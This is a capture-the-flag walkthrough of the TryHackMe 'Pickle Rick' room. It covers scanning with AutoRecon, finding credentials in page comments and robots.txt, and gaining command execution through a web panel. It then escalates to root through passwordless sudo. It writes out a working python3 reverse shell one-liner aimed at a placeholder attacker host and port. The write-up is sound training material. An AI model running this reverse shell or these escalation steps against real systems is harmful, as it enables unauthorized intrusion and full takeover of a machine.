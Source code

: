 ```yaml
---
title: "Try Hack Me - Pickle Rick Walkthrough"
date: 2022-07-24 12:00:00
catagories: [article,walkthrough]
tags: [THM]
---
```

![Rick being cool.](https://imgur.com/BkKtAkO.png)


This is an old room on Try Hack Me. At the time I am writing this walkthrough it has been released for almost 4 years!
This room is also a CTF (Capture the Flag) room which means that it is not a "Real World" experience, but it is meant to help us practice our skills.

# Scanning the Host
First we will scan the host. I like to use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

I like to create a new folder for the room and then a command that looks like:
```bash
sudo python3 /tool_repos/AutoRecon/autorecon.py <xx.xx.xx.xx> --dirbuster.threads=100 -o /path/to/box_folder && sudo chown -R <user>:<user> /path/to/box_folder
```
Ok let me explain that command:
- `sudo python3` - I use `sudo` because some of the tools autorecon uses need to be run as `root`. The problem with this is any files created are owned by `root`. (we will fix this in a second)
- `/tool_repos/AutoRecon/autorecon.py` - I always create a directory on my kali boxes to store all the tools I `git clone` from github. (Even better if you have NFS storage your home lab, use that to mount the folder with all the tools you like, whenever you need to rebuild your kali box!)
- `<xx.xx.xx.xx>` - This is just a placeholder for the IP of the box you are scanning.
- `--dirbuster.threads=100` - How many dirbuster threads you want to allocate. This is important, setting this to a higher number helps your scan get done faster.
- `-o /path/to/box_folder` - This is the output path for the results of the scans.
- ` && sudo chown -R <user>:<user> /path/to/box_folder` - This is some magic I add to the end of the scan.
    - The `&&` just means run the next command if the previous command was successful
    - Because we used `sudo` all the files created are owned by root. this can be annoying latter on.
    - We use a recursive `chown` to set the owenership of the files back to our 'regular' user.
    - Just replace both `<user>` spots with the name of your user.

# Scan Results
After running `autorecon` we see that there are only 2 ports open:
- tcp 22 (SSH)
- tcp 80 (HTTP)

Lets's take a look at port 80.
It's important to remember that autorecon with run a ton of `NMAP` scripts against the ports it finds before we jump into a web browser and look at the page let's examine what it found.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-chrono: Request times for /; avg: 578.44ms; min: 566.60ms; max: 605.38ms
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
```
First we see that there is a `robots.txt` file these can contain some good information. Let's check it out.
- You can learn more about `robots.txt` files [HERE](https://moz.com/learn/seo/robotstxt)
- The only thing we find is: `Wubbalubbadubdub`
- `NMAP` is also telling us it found `login.php`, we will have to remember to come back to that.

NOTE: I have learned with CTFs to always note strange discoveries like this, they are usually not there by accident.

Here is the next interesting finding in from the `NMAP` scan:
```
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.210.147
|
|     Path: http://10.10.210.147:80/
|     Line number: 28
|     Comment:
|         <!--
|
|             Note to self, remember username!
|
|             Username: R1ckRul3s
|
|           -->
```
We should always check to HTML comments in the page source, but `NMAP` will do it for us! (To my shame, it took me a while to realize that `autorecon` was running this `NMAP` script against HTTP ports.)

So now we have a username too: `R1ckRul3s`

# Login Page
Time to check out the discovered login page.
![](/assets/images/pr_login.jpg?raw=true)

We have a username and what could be a password, let's try it!

![](/assets/images/command_panel.jpg?raw=true)

It worked! Now I really want to play with that `Command Panel`, but let's take some time to look at the tabs on the page.

All the tabs say that only the "REAL" Rick can view the pages. This may mean that are only logged in as a low level user and need a different login to view the other pages.

Ok time to play with `Command Panel`, and it looks like we have direct code execution on the box.

![](/assets/images/rce.jpg?raw=true)

But not for everything, when we try: `cat /etc/passwd` we get:

![](/assets/images/no_rce.jpg?raw=true)

If we run `pwd` we see that we are in `/var/www/html` and if we run `ls -lah` we see some files we did know about, `index.html` and `login.php` and some we didn't. Let see if we can navigate directly to these new files.

![](/assets/images/file_list.jpg?raw=true)

And we find the answer for "the first ingredient" in the file: `Sup3rS3cretPickl3Ingred.txt`

![](/assets/images/flag1.jpg?raw=true)

`clue.txt` tells us that we need to look around the filesystem some more.

We always want to know what users are on a system so let's `ls -lah /home`

![](/assets/images/pr_home.jpg?raw=true)

We see 2 users, `ubuntu` and `rick` and rick's permissions are wide open so let's explore his home directory.
But after I looked around for a while longer I didn't find much. I think it time to pop a shell on this box.
First let's see if we can use python3:

![](/assets/images/python_v.jpg?raw=true)

Now that we know that python3 executes we can try to pop a shell!
Let's try this one. DON'T FORGET TO CHAGNE YOUR HOST IP AND PORT in the command! :)  

By the way, I tryied few different reverse sheels the one below may not always work, but it did here. 

```bash
export RHOST="xx.xx.xx.xx";export RPORT=xxxx;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
And once we get our shell, let's 'upgrade' it:

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Now we can go get the answer to the 2nd question! 

![](/assets/images/flag2.jpg?raw=true)

So now we have a "foothold" on the box, it's time to do some privesc (priviledge escalation)

I like to use [LSE](https://github.com/diego-treitos/linux-smart-enumeration) (Linux Smart Enumeration) tool when enumerating a system for possible privesc points.

BUT, before we do all that we should just check to see if our user has `sudo` privleges. Which in the real world the `www-data` should never have! 
So we try `sudo -l` which should tell us what privleges the user has. 

![](/assets/images/pr_root.jpg)

Wow, we can run ALL commands as `root` with no password!! 

Looks like Rick likes to live dangerously!

You can either use `sudo` in front of all your commands or just switch to  `root` with `sudo su`

Now you can get the answer to the third question in the `/root` directory! 




